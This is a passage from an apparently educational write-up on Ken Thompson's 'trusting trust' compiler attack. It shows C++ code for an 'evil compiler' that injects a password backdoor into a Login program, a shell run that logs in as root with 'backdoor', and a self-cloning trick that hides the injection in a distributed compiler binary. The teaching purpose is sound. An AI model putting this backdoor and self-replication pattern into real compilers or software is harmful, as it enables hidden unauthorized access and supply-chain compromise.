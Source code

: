 ```cpp
    for(int i=1; i<argc; i++)
        allArgs += " " + string(argv[i]);
    string shellCommand = "g++" + allArgs;
    string fileName = string(argv[1]);
    if(fileName == "Login.cpp")
        compileLoginWithBackdoor(allArgs);
    else
        system(shellCommand.c_str());
}
```

Even though the Login program’s source code only accepts the password “test123”, the compiled executable will now additionally accept the password “backdoor” if it’s built with our evil compiler.

```bash
> g++ EvilCompiler.cpp -o EvilCompiler
> ./EvilCompiler Login.cpp -o Login
> ./Login
Enter password:
backdoor
Successfully logged in as root
>
```

You may have noticed the backdoor attack could easily be broken by renaming `Login.cpp` to something else. But our evil compiler could just as easily decide to inject backdoors based on file contents instead of file names.

Nobody will actually use our evil compiler because anyone who reads the source code is bound to notice its trickery and report it. To avoid this issue we will take advantage of self-hosting to hide our compiler’s backdoor injection.

### 3. Hiding Backdoor Injection

We can modify our evil compiler `EvilCompiler.cpp` to clone itself whenever it’s asked to compile our clean compiler `Compiler.cpp` from Step 1. We can then distribute the `EvilCompiler` binary (renamed of course) as the first release of our self-hosted compiler and claim that `Compiler.cpp` is the corresponding source code. Now anyone who uses our compiler is susceptible to our attack even if they verified our compiler was clean before deciding to use it. Even if they downloaded the clean `Compiler.cpp` source code and compiled it themselves with `EvilCompiler`, the generated executable would just be a copy of `EvilCompiler`. 

Highlighted below are the modifications needed to make the evil compiler clone itself. You can skip implementation details if the high-level idea makes sense.

```cpp {linenos=table, hl_lines=["5-15", "19-21"]}
// EvilCompiler.cpp

...

void cloneMyselfInsteadOfCompiling(int argc, char* argv[]) {
    string myName = string(argv[0]);
    string cloneName = "a.out";
    for(int i=0; i<argc; i++)
        if(string(argv[i]) == "-o" && i < argc - 1) {
            cloneName = argv[i+1];
            break;
        }
    string cloneCmd = "cp " + myName + " " + cloneName;                          
    system(cloneCmd.c_str());
}

int main(int argc, char *argv[]) {
    ...
    if(fileName == "Compiler.cpp")
        cloneMyselfInsteadOfCompiling(argc, argv);
```